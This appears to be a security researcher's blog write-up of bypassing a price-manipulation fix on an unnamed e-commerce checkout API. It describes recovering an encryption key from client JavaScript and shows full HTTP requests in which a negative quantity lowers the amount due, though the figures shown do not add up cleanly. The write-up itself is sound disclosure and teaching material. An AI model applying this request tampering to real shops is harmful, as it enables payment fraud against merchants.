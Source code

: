 ```yaml
---
title: "Exploiting Business Logic Error: Price Manipulation"
layout: post
date: 2023-04-12 12:00
categories: blog
---
```


This blog discusses the exploitation of a business logic error that allows users to manipulate prices and pay less for the products and services offered by the target company.

## Target Background
The target of this analysis is a web application functioning as an e-commerce platform. It facilitates online purchases of various products and services by users.

## Overview
The Target company previously disclosed a vulnerability report regarding a specific issue: "hackers were able to manipulate the payment amount during the checkout/order process." To understand the application's fix for this vulnerability, I attempted the same steps to examine the implemented validation mechanisms.

## Reconnaissance
- Hosted on AWS
- Utilizes React for web application development
- Mobile application version is also available
- All application requests and responses are encrypted

## Finding the Encryption Key
Upon inspecting the application traffic, I discovered that the JSON payloads in requests and responses were encrypted. To manipulate or interact with these encrypted payloads, I needed to locate the encryption and decryption keys.

During my analysis of the JavaScript files, I identified the encryption key, the encryption algorithm, the mode, and the initialization vector. Armed with this information, I used online encryption tools to encrypt the payloads.

## Playing with fire🔥
I attempted to modify the price parameter in the request, but the application's validation mechanism prevented any successful manipulation. The amount to be paid was validated against a salted hash that was associated with the purchase order.

### Actual Request and Response

### Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "10",
  "amount_to_be_paid": "100",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

The above request represents a checkout request sent to the server to facilitate payment for a purchase order. To address the previously exploited price manipulation vulnerability, the developer implemented an additional parameter named `saltedhash`.

## Bypass
During my exploration of the application flow and requests, I decided to conduct a deeper investigation of the `checkout` request. I noticed a parameter called `quantity`, which was responsible for creating orders based on the desired quantity specified by customers. I attempted to modify this value to a negative number.

### Manipulated Request

```http
POST /api/v1/checkout HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

Upon sending the request with a negative value for the `quantity` parameter, the server responded by adjusting the amount to be paid accordingly. The lack of validation on the `quantity` parameter allowed negative values to be accepted. As a result, the backend calculation for the amount to be paid was based on the per-quantity price and the number of quantities in the cart.

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "saltedhash": "hashcode",
  "product_id": "121212",
  "price": "10",
  "quantity": "-5",
  "amount_to_be_paid": "6",
  "address": "ABC city, ABC.",
  "zipcode": "123456"
}
```

By changing the `quantity` value to a negative number, it was possible to pay a reduced amount for the orders placed.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
